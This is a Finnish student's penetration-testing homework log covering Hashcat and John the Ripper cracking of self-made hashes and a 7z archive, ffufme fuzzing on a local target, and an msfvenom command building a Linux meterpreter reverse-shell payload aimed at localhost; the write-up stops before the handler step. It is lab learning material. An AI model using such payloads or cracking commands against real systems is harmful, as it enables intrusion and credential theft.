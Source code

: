 ## H4: Marraskuu2024!

## Host-kone: AMD Ryzen 5800X3D, NVIDIA RTX 3080, 32GB DDR4, Windows 11 23H2

### x) Lue/katso ja tiivistä. (Tässä x-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen tai kuunteleminen ja tiivistelmä riittää. Tiivistämiseen riittää muutama ranskalainen viiva kustakin artikkelista. Kannattaa lisätä myös jokin oma ajatus, idea, huomio tai kysymys.)

### a) Asenna Hashcat ja testaa sen toiminta murtamalla esimerkkisalasana.

Hashcat olikin jo valmiina Kalissa. `hashcat -v`

![image](https://github.com/user-attachments/assets/bf4f28bf-db09-4ba2-97f4-bc20a302ff3b)

Latasin salasanalistan wgetillä osoitteesta https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt. Tuossa pitäisi olla 1000 heikkoa salasanaa testattavaksi.

Tiedosto on kotihakemistossani nimellä 10-million...

![image](https://github.com/user-attachments/assets/e0b39e5f-8fa9-4311-9409-7d483dc9f5fd)

Eräs salasana listassa oli 'master'. Kokeillaampas sitä. Teen siitä MD5 hashin tiedostoon, jonka kokeilen kräkätä hashcatilla.  `echo -n 'master' | md5sum > output.txt` luo hashin ja pistää sen tiedostoon output.txt.

![image](https://github.com/user-attachments/assets/b00977e0-1057-4c31-96ed-74102948dd8d)

Siellä on. Ajetaan komento `hashcat -m 0 output.txt 10-million-password-list-top-1000.txt`. Siellä olikin md5sumin laittama viiva lopussa joka indikoi sitä että hash on stdinistä eikä tiedostosta tullut. Poistetaan se nanolla ja ajetaan komento uusiksi.

Sain erroria muistiin liittyen, koneella ei ehkä ole tarpeeksi. Annetaan lisää virtualboxista. Eiköhän 16GB riitä. Komentoon piti lisätä vielä `-a 0` -lippu että se toimii kunnolla. Se asettaa hashcatin käyttämään sanalistaa. 

![image](https://github.com/user-attachments/assets/fe5aaea4-72db-4f3c-9020-ab0ee152d850)

Oikeinhan se on, tuo on sanan master md5-hash.

### b) Asenna John the Ripper ja testaa sen toiminta murtamalla jonkin esimerkkitiedoston salasana.

Seuraan Teron ohjeita artikkelista Crack file password with John. Päivitän paketit ja asennan tarvittavat paketit.

`sudo apt update`, `sudo apt upgrade`, `sudo apt -y install micro bash-completion git build-essential libssl-dev zlib1g zlib1g-dev zlib-gst libbz2-1.0 libbz2-dev atool zip wget`. zlib-gst ei asentunut koska sitä ei löydy. Jätetään se pois. 

Kloonataan Johnin repo: `git clone --depth=1 https://github.com/openwall/john.git`

![image](https://github.com/user-attachments/assets/0c46c377-e719-4575-8871-d546eafbdaeb)

Navigoidaan kansioon john/src. Siellä on configure-tiedosto joka ajetaan `./configure`

![image](https://github.com/user-attachments/assets/4e83828a-e549-4d2d-b1e9-637ba93215e2)

Nyt ajetaan tuon antamat komennot Johnin kompiloimiseksi. `make -s clean && make -sj2`

Onnistui.

![image](https://github.com/user-attachments/assets/cd5b4399-1cf1-47a9-9247-9d87709baacc)

Ohjeiden mukaan latasin wgetillä tero.zipin ja siirsin sen myös kotihakemistoon. Loin siitä hashin.

![image](https://github.com/user-attachments/assets/376198f1-ed45-421b-a4f2-67e74af8d5af)

Sehän toimii. Salasana on 'butterfly'.

![image](https://github.com/user-attachments/assets/c6ececb4-60a7-4242-a1a9-2b69c751c06d)


### c) Fuffme. Asenna Ffufme harjoitusmaali paikallisesti omalle koneellesi. Ratkaise tehtävät (kaikki paitsi ei "Content Discovery - Pipes")

Harjoitusmaali:

Kloonasin repon ja seurasin sieltä löytyviä ohjeita maalin asennukseen. Sitten curlasin localhostia portilla 80 ja siellähän se on. 

![image](https://github.com/user-attachments/assets/4fa8abf1-a677-45f2-8e9b-d7bf4fcb9a60)

![image](https://github.com/user-attachments/assets/db65451a-96f7-496a-9185-ddd428fed977)

Content Discovery basic onnistui:

![image](https://github.com/user-attachments/assets/23b2196d-cc00-4671-86e3-cc01a291019f)

REcursion onnistui:

![image](https://github.com/user-attachments/assets/31119871-e815-4c33-ad92-dacdafd01e34)

File extensions onnistui:

![image](https://github.com/user-attachments/assets/1ca09c85-599e-4b4c-b2b0-f4929ebd4d85)

No404 onnistui:

![image](https://github.com/user-attachments/assets/92096a5b-65ce-4728-8f94-6b496a9b5e2c)

Parameters onnistui:

![image](https://github.com/user-attachments/assets/66ab14c5-0624-4eb6-a0d9-9b89dd21555c)

Rate onnistui:

![image](https://github.com/user-attachments/assets/3cc2427d-e06c-420f-96fb-1d0ea8970db1)


### d) Tiedosto. Tee itse tai etsi verkosta jokin salakirjoitettu tiedosto, jonka saat auki. Murra sen salaus. (Jokin muu formaatti kuin aiemmissa alakohdissa kokeilemasi).

Tein Kalin file managerissa kansion Tobecracked johon laitoin tekstitiedoston ja zippasin sen .7z formattiin ja laitoin salasanaksi qwerty.

Sitten tein siitä hashin komennolla `/john/run/7z2john.pl Tobecracked.7z > Tobecracked.7z.hash`. Sitten ajoin `john/run/john --wordlist=passwords.txt Tobecracked.7z.hash`.

![image](https://github.com/user-attachments/assets/16b6f3b9-f5ac-429b-aeb1-c99b224fedac)

Sieltähän se tuli. 


### e) Tiiviste. Tee itse tai etsi verkosta salasanan tiiviste, jonka saat auki. Murra sen salaus. (Jokin muu formaatti kuin aiemmissa alakohdissa kokeilemasi. Voit esim. tehdä käyttäjän Linuxiin ja murtaa sen salasanan.)

Löysin netistä esimerkki hashin, SHA-1 muotoa. Identifioidaan se hash-identifierillä: `hash-identifier b89eaac7e61417341b710b727768294d0e6a277b`

![image](https://github.com/user-attachments/assets/1820463a-a3ad-4656-b6c9-5f719192fbb5)

Kokeilin sitä rockyou.txt:tä vastaan, mutta matchia ei tullut. `hashcat -m 100 'b89eaac7e61417341b710b727768294d0e6a277b' rockyou.txt -o solved.txt`

![image](https://github.com/user-attachments/assets/0d1b9eea-4f08-4277-986c-9dfce85c9bb5)

Muokataampas sanalistaa hieman sivulta löytyvällä sisällöllä, josta hashin otin. Näin simuloimme hieman tähdättyä hyökkäystä custom sanalistalla. 

![image](https://github.com/user-attachments/assets/92e590dd-df2b-4139-bcec-1a9f062e8733)

![image](https://github.com/user-attachments/assets/8eedeb20-33a0-4ab2-b21b-4f53e368dd21)

Sieltähän se tuli.

![image](https://github.com/user-attachments/assets/7dbea933-d529-4651-9306-742860db01c6)

Salasana oli siis hashcat, ja hashin otin hashcatin kotisivuilta. https://hashcat.net/wiki/doku.php?id=example_hashes


### f) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla.

Tein payloadin käyttämällä Teron esimerkkikomentoa läksyistä `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=80 -o infected` Muutin porttia hieman, kokeillaan vaikkapa porttia 80 Metasploitablen nmap-tuloksista. 

Käynnistin Kalin viereen metasploitablen. Piti googlata vähän apua tähän tehtävään jo:



## Lähteet:

https://terokarvinen.com/tunkeutumistestaus/

https://hashcat.net/wiki/doku.php?id=hashcat

https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

https://terokarvinen.com/2023/crack-file-password-with-john/

https://www.pdfsharp.net/wiki/Print.aspx?Page=ProtectDocument-sample&AspxAutoDetectCookieSupport=1

https://hashcat.net/wiki/doku.php?id=example_hashes

https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom
